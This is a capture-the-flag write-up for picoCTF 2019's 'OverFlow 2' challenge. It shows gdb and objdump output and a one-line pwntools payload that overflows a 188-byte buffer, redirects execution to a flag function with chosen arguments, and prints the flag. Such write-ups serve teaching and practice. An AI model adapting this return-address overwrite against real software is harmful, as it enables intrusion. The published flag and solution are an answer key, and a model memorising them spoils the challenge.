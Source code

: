 # OverFlow 2
#### Now try overwriting arguments. Can you get the flag from this [program](https://2019shell1.picoctf.com/static/f6a5f545b2412a67527aa6e8319898e0/vuln)? You can find it in /problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e on the shell server. [Source](https://2019shell1.picoctf.com/static/f6a5f545b2412a67527aa6e8319898e0/vuln.c).

We can solve this problem in almost the same way we solved overflow 1. First we have to find where the return address is overflowed. We
can do this with gdb and some trial and error.

```
Starting program: /problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCDEFGHIJKL
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCDEFGHIJKL

Program received signal SIGSEGV, Segmentation fault.
0x08004c4b in ?? ()
```

We find out that after 188 bytes the return address changes. Next we have to find out the address of the flag function. We can do this with
gdb or with objdump.

```
Supermac30@pico-2019-shell1:/problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e$ objdump -D vuln | grep flag
080485e6 <flag>:
 8048618:       75 1c                   jne    8048636 <flag+0x50>
 8048651:       75 1a                   jne    804866d <flag+0x87>
 804865a:       75 14                   jne    8048670 <flag+0x8a>
 804866b:       eb 04                   jmp    8048671 <flag+0x8b>
 804866e:       eb 01                   jmp    8048671 <flag+0x8b>
 ```
 
 Then we use inline python and the pwn library to change the address. We still have to change the arguements. All arguements for a function
 can be found 4 bytes after the beginning. To change the arguements to 0xdeadbeef and 0xc0ded00d we can insert them 4 'A's after the 
 address of the function.
 
 ```
Supermac30@pico-2019-shell1:/problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e$ python -c 'from pwn import *; print "A"*188 + p32(0x080485e6) + "AAAA" + p32(0xdeadbeef) + p32(0xc0ded00d)' | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
picoCTF{arg5_and_r3turn55897b905}Segmentation fault (core dumped)
```

Flag: picoCTF{arg5_and_r3turn55897b905}
